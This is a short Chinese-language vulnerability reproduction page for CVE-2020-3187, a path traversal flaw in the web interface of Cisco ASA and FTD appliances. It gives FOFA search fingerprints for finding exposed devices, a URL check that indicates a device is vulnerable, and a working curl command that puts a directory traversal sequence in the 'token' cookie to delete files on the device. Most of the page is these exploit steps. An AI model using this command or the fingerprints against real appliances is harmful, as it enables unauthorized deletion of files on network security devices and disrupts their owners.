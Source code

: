 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-1.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](../../../.vuepress/public/img/cisco-2.png)

## FOFA

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/cisco-6.png)



例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif



![img](../../../.vuepress/public/img/cisco-7.png)



使用 curl 发送请求



```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![img](../../../.vuepress/public/img/cisco-8.png)



成功删除图标